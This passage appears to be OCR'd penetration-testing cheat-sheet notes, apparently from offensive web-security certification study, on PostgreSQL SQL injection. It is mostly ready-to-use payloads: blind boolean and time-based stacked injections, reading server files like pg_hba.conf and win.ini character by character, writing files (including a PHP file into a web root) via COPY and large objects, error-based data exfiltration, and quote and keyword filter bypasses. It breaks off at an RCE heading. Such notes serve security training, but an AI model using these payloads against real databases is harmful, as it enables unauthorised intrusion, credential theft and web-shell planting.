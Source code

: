             https://tableplus.com/blog/2018/10/how-to-show-queries-log-in-postgresql.html
    Blind Boolean:
        admin' and substr(password,1,1) = '0'-- -
        admin' and password LIKE '0e%'-- -
    Blind Time-Based (Stacked):
        POC: &userId=1;%20SELECT%20pg_sleep(10)%20--
        SELECT current_setting('is_superuser');  ->  &userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
        File Read (char by char):  &userId=1;create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+
    File Write:  &userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+
    ORDER BY Blind/Error SQLI:  https://pulsesecurity.co.nz/articles/postgres-sqli
        Error Message Exfil:  SELECT CAST(chr(32)||(SELECT pg_user) AS NUMERIC)
        Conditional Error:  1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
    Troubleshooting/Filters:
        Base64:  ex. select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
        ASCII Concatenation: only works for basic queries - SELECT, INSERT, DELETE, etc.
            ex. SELECT CHR(65)||CHR(87)||CHR(65)||CHR(69);
        Quote Restriction Bypass (Lexical Structure):
            SELECT 'AWAE';  OR  SELECT $$AWAE$$;  OR  SELECT $TAG$AWAE$TAG$;
            ex. CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
        Hex:
            convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8')
            SELECT U&"\006a\006f\0072\0067\0065\0063\0074\0066" #SELECT jorgectf
            SELECT U&'\006a\006f\0072\0067\0065\0063\0074\0066' #SELECT 'jorgectf'
            U&'\006a\006f\0072\0067\0065\0063\0074\0066'() #jorgectf()
        Combine Results to One Row:  query_to_xml(query text, nulls boolean, tableforest boolean, targetns text)
            ex. select query_to_xml('select * from pg_user',true,true,''); --
            Dump Entire Database as One Row:  database_to_xml(true,true,'')
        Collation:
            Check:
                Columns (non-default):  select table_schema, table_name, column_name, collation_name from information_schema.columns where collation_name is not null order by table_schema, table_name, ordinal_position;
                Database:  select datname, datcollate from pg_database;
            Set:  select ... collate "C"  ;  select ... collate "C.UTF-8"
    If DBA: access filesystem; potentially load third-party PostgreSQL extensions (native C++ code)
    Filesystem Access:
        Read File:  
            select pg_ls_dir('./');
                select pg_read_file('PG_VERSION', 0, 200);      #older versions don't take absolute path
            CREATE temp table awae (content text); COPY awae from $$c:\awae.txt$$; SELECT * from awae; DROP table awae;
            SELECT pg_read_file('/usr/local/pgsql/data/pg_hba.conf', 0, 200);
            SELECT lo_import($$C:\\Windows\\win.ini$$,1337); select loid, pageno, encode(data, 'escape') from pg_largeobject;
        Write to File:
            Without table:  COPY (SELECT $$offsec$$) to $$c:\\offsec.txt$$;
            With table:
                CREATE TABLE mytable (mycol text);
                INSERT INTO mytable(mycol) VALUES ('');
                COPY mytable (mycol) TO '/var/www/test.php';
            LO:
                SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
                SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
                SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
        Other Method: Large Objects
    RCE Methods:
        Method 1: Basic Query: